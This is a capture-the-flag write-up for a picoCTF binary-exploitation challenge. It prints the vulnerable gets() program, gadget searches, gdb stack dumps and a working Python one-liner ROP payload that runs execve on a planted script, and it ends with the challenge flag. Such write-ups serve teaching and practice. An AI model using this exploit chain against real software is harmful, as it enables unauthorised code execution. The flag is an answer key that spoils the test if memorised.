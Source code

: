 # CorCan you gets me ?

>Can you exploit the following program to get a flag?
>You may need to think return-oriented if you want to program your way to the flag.
>You can find the program in /problems/can-you-gets-me_1_e66172cf5b6d25fffee62caf02c24c3d on the shell server. Source.

### [~$ cd ..](../)

We are given the source of a vulnerable program, as well as the binary:

> ```c
>#include <stdio.h>
>#include <stdlib.h>
>#include <string.h>
>#include <unistd.h>
>#include <sys/types.h>
>
>#define BUFSIZE 16
>
>void vuln() {
>	char buf[16];
>	printf("GIVE ME YOUR NAME!\n");
>	return gets(buf);
>}
>
>int main(int argc, char **argv){
>
>	setvbuf(stdout, NULL, _IONBF, 0);
>
>
>	// Set the gid to the effective gid
>	// this prevents /bin/sh from dropping the privileges
>	gid_t gid = getegid();
>	setresgid(gid, gid, gid);
>	vuln();
>
>}
> ```

**TL; DR: It's a classical ROP attack**

## The payload

Knowing that the ASLR is enabled, that the stack is not executable and according to the simplicity of this program, we guessed, and it was confirmed
by a hint, that we had to exploit it using a Return-Oriented-Programming.

What is this ?

ROP-attack is a well-known and powerful way to exploit binaries, which is able to bypass ASLR and doesn't require any shellcode. The idea is quite simple: by chaining
some small groups of instructions, whe can build a valid longest series of instructions which can finally behave like a shellcode. These small groups are called "gadgets", and
they have to end with the instruction `ret`. Therefore, we can easily chain them on the top of the stack.

To find these gadgets, we used to 0vercl0k's tool: [rp](https://github.com/0vercl0k/rp/downloads)

Well, but which gadgets do we need ?
The man idea is to execute something like `execve("/bin/sh", NULL, NULL)`. To succeed, with then need to have the following values:
* `$eax=0xb`, 0xb begin the syscall code we expect
* `$ebx` contains the address of "/bin/sh"
* `$ecx=NULL` the arguments to pass to the command (don't care)
* `$edx=NULL` the address of the environment variables (don't care)

To obtain the expected setting, we will push the values onto the stack and then pop them into registers. The outline of the payload is therefore:

* fill the buffer
* @gadget(pop eax; ret)
* 11
* @gadget(pop ebx; ret)
* @"/bin/sh"
* @gadget(pop ecx; ret)
* 0
* @gadget(pop edx; ret)
* 0
* interrupt

Indeed, these values will be placed on the top of the stack as `vuln` ends, that's the reason why we need to pop them.

### Address of "/bin/sh"

"/bin/sh" doesn't appear in the program, and we have to find a way to execute the expected command. To get around the problem, we decided to create our own command
and to use a constant string in `rodata`:

> ```sh
>% readelf -x .rodata ./gets|head -n 20
>
>Vidange hexadécimale de la section « .rodata » :
>0x080bb320 03000000 01000200 47495645 204d4520 ........GIVE ME
>0x080bb330 594f5552 204e414d 4521002e 2e2f6373 YOUR NAME!.../cs
>0x080bb340 752f6c69 62632d73 74617274 2e630046 u/libc-start.c.F
>0x080bb350 4154414c 3a206b65 726e656c 20746f6f ATAL: kernel too
>0x080bb360 206f6c64 0a000000 5f5f6568 64725f73  old....__ehdr_s
>0x080bb370 74617274 2e655f70 68656e74 73697a65 tart.e_phentsize
>0x080bb380 203d3d20 73697a65 6f66202a 474c2864  == sizeof *GL(d
>0x080bb390 6c5f7068 64722900 46415441 4c3a2063 l_phdr).FATAL: c
>0x080bb3a0 616e6e6f 74206465 7465726d 696e6520 annot determine
>0x080bb3b0 6b65726e 656c2076 65727369 6f6e0a00 kernel version..
>0x080bb3c0 756e6578 70656374 65642072 656c6f63 unexpected reloc
>0x080bb3d0 20747970 6520696e 20737461 74696320  type in static
>0x080bb3e0 62696e61 72790000 67656e65 7269635f binary..generic_
>0x080bb3f0 73746172 745f6d61 696e002f 6465762f start_main./dev/
>0x080bb400 66756c6c 002f6465 762f6e75 6c6c0000 full./dev/null..
>0x080bb410 7365745f 74687265 61645f61 72656120 set_thread_area
>0x080bb420 6661696c 65642077 68656e20 73657474 failed when sett
>0x080bb430 696e6720 75702074 68726561 642d6c6f ing up thread-lo
> ```

It's important here to choose a string ending with a null byte. We choose here the string "ull" located at `0x080bb40b`. We then had to create
a script named "ull" executing the expected command (i.e `cat` the flag)

## Find gadgets

We then used the program `rp-lin-x86` to find the expected gadgets:

> ```sh
>% ./rop86 --file gets -r 1 --unique|grep "pop eax"
>0x080d244e: pop eax ; call dword [edi+0x4656EE7E] ;  (1 found)
>0x0809ca62: pop eax ; jmp dword [eax] ;  (4 found)
>0x080b81c6: pop eax ; ret  ;  (1 found)
>```

Gadget `pop $eax`: **0x080b81c6**

> ```sh
>% ./rop86 --file gets -r 1 --unique|grep "pop ebx"
>0x080505a3: pop ebx ; jmp eax ;  (6 found)
>0x0804cec7: pop ebx ; rep ret  ;  (1 found)
>0x080481c9: pop ebx ; ret  ;  (181 found)
>0x080d353c: pop ebx ; retn 0x06F9 ;  (1 found)
> ```

Gadget `pop $ebx`: **0x080481c9**

> ```sh
>% ./rop86 --file gets -r 1 --unique|grep "pop ecx"
>0x080de955: pop ecx ; ret  ;  (1 found)
> ```

Gadget `pop $ecx`: **0x080de955**

> ```sh
>% ./rop86 --file gets -r 1 --unique|grep "pop edx"
>0x0806f02a: pop edx ; ret  ;  (2 found)
> ```

Gadget `pop $edx`: **0x0806f02a**

> ```sh
>% ./rop86 --file gets -r 1 --unique|grep "int 0x80"
>0x0806cc23: add byte [eax], al ; int 0x80 ;  (3 found)
>0x0806cc25: int 0x80 ;  (8 found)
>0x0806f630: int 0x80 ; ret  ;  (1 found)
>0x0806cc20: mov eax, 0x00000001 ; int 0x80 ;  (1 found)
>0x0807a9d9: mov eax, 0x00000077 ; int 0x80 ;  (1 found)
>0x0807a9d0: mov eax, 0x000000AD ; int 0x80 ;  (1 found)
>0x0806f62f: nop  ; int 0x80 ;  (1 found)
>0x0806cc1f: or byte [eax+0x00000001], bh ; int 0x80 ;  (1 found)
>0x080b6ed7: push es ; int 0x80 ;  (1 found)
> ```

Gadget `int 0x80`: **0x0806f630**

And finally, the payload becomes:

* 0x080b81c6 ;pop eax
* 0x0000000b ;execve syscall
* 0x080481c9 ;pop ebx
* 0x080bb40b ;"ull"
* 0x080de955 ;pop ecx
* 0x00000000 ;NULL
* 0x0806f02a ;pop edx
* 0x00000000 ;NULL
* 0x0806f630 ;interrupt

## Fill the buffer

By sending some 'A's and breaking after the call the `gets`, we can see that 28 bytes are needed to fill the buffer:

> ```
>gdb-peda$ info reg ebp
>ebp            0xffffd198	0xffffd198
>gdb-peda$ x/30wx $esp
>0xffffd170:	0xffffd180	0x080eaf84	0x00000000	0x080481a8
>0xffffd180:	0x41414141	0x41414141	0x41414141	0x41414141
>0xffffd190:	0x41414141	0x00000300	0xffffd1b8	0x080488e9
>0xffffd1a0:	0x080ea00c	0x00000045	0x00001000	0x000003e8
>0xffffd1b0:	0x080ea070	0xffffd1d0	0x00001000	0x08048b21
>0xffffd1c0:	0x080ea00c	0x00000045	0x00001000	0x08048b21
>0xffffd1d0:	0x00000001	0xffffd294	0xffffd29c	0xffffd1f4
>0xffffd1e0:	0x00000000	0x00000001
> ```

Let's feed the stdin with the payload and break at the end of `vuln`:

> ```
>gdb-peda$ x/12wx $esp
>0xffffd19c:	0x080b81c6	0x0000000b	0x080481c9	0x080bb40b
>0xffffd1ac:	0x080de955	0x00000000	0x0806f02a	0x00000000
>0xffffd1bc:	0x0806f630	0x080ea000	0x00000045	0x00001000
> ```

Perfect!

## Exploit

Since the command "ull" is not a regular command we need to create it:

```bash
% cd /tmp
% nano ull
	#!/bin/sh
	cat /problems/can-you-gets-me_1_e66172cf5b6d25fffee62caf02c24c3d/flag.txt
% chmod +x ull
% export PATH=/tmp:$PATH
% python -c "print 'A' * 28 + '\xc6\x81\x0b\x08\x0b\x00\x00\x00\xc9\x81\x04\x08\x0b\xb4\x0b\x08\x55\xe9\x0d\x08\x00\x00\x00\x00\x2a\xf0\x06\x08\x00\x00\x00\x00\x30\xf6\x06\x08'" | /problems/can-you-gets-me_1_e66172cf5b6d25fffee62caf02c24c3d/gets
```

FLAG: **picoCTF{rOp_yOuR_wAY_tO_AnTHinG_700e9c8e}**
